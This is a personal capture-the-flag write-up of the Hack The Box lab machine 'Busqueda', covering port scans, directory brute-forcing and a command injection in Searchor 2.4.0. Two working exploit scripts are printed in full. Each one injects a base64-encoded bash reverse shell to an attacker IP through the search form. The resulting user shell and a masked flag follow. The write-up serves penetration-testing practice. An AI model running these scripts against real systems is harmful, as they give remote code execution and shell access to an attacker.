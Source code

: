 ```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-30 19:38 EDT
Nmap scan report for 10.10.11.208
Host is up (0.025s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.08 seconds
```

```
gobuster dir -u http://searcher.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

found: /search

gobuster dir -u http://searcher.htb/search/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

found: nothing
```

nothing is being found..... im going to scan UDP ports see if anything is there:
```
sudo nmap -sU -Pn --top-ports 100 -T3 10.10.11.208
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-30 19:54 EDT
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.024s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc

Nmap done: 1 IP address (1 host up) scanned in 107.82 seconds

```
OOOO
but it is filtered so this will be a last resort.....

I checked back at the website:

and sent the post request to the repeater, 

i saw if i add a ' character to the query parameter that i wasnt getting the response i expected:
```
engine=Google&query=pwned

translates to:
https://www.google.com/search?q=pwned

but if i do:
engine=Google&query=pwned'

i get nothing just a 200
```
hmmmmm, possible server side injection????

Lets try out some other things:
```
pwned'%2bprint('pwned')%2b
```

still nothing just a 200....

not to good at injecting, im gonna look for a vuln to :
`Powered by [Flask](https://flask.palletsprojects.com) and [Searchor 2.4.0](https://github.com/ArjunSharda/Searchor)`

as this is at the bottom of the home page:
`searchsploit searchor`

nothing.....

let me google....

pays to keep digging!
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

this is exactly the version running and was the first thing to pop up lol

check the code to make sure im not getting hacked myself by hacking htb...
```
#!/bin/bash -

default_port="9001"
port="${3:-$default_port}"
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$2/${port} 0>&1'" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i')) # junky comment"
plus="+"

echo "---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---"

if [ -z "${evil_cmd##*$plus*}" ]
then
    evil_cmd=$(echo ${evil_cmd} | sed -r 's/[+]+/%2B/g')
fi

if [ $# -ne 0 ]
then
    echo "[*] Input target is $1"
    echo "[*] Input attacker is $2:${port}"
    echo "[*] Run the Reverse Shell... Press Ctrl+C after successful connection"
    curl -s -X POST $1/search -d "engine=Google&query=${evil_cmd}" 1> /dev/null
else 
    echo "[!] Please specify a IP address of target and IP address/Port of attacker for Reverse Shell, for example: 

./exploit.sh <TARGET> <ATTACKER> <PORT> [9001 by default]"
fi
```

CLEAN!

lets send it :
```
./searchor.sh 10.10.11.208 10.10.14.3
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is 10.10.11.208
[*] Input attacker is 10.10.14.3:9001
[*] Run the Reverse Shell... Press Ctrl+C after successful connection
```

Didn't work, so i went back in the website and was messing around, looks like it needs to be URL-encoded for it to work, so i just made things simple and used my own code that i took from our boy above, shout out him:
```
#!/bin/bash -

rev_shell_b64=$(echo -ne "bash -i >& /dev/tcp/10.10.14.3/9001 0>&1" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i')) #"
url_encoded_cmd=$(python3 -c "import urllib.parse; print(urllib.parse.quote(\"${evil_cmd}\"))")

echo "[*] Run the Reverse Shell... Press Ctrl+C after successful connection"
curl -s -X POST http://searcher.htb/search -d "engine=Google&query=${url_encoded_cmd}"
```

:D

```
svc@busqueda:~$ cat user.txt
cat user.txt
c43f6be03dc7e0f171c552****
```

USER PWNED!
*Took a lil longer than expected but lets be real this was for sure the exploit, so i was for sure going down this bunny hole*

---

### PRIV ESC

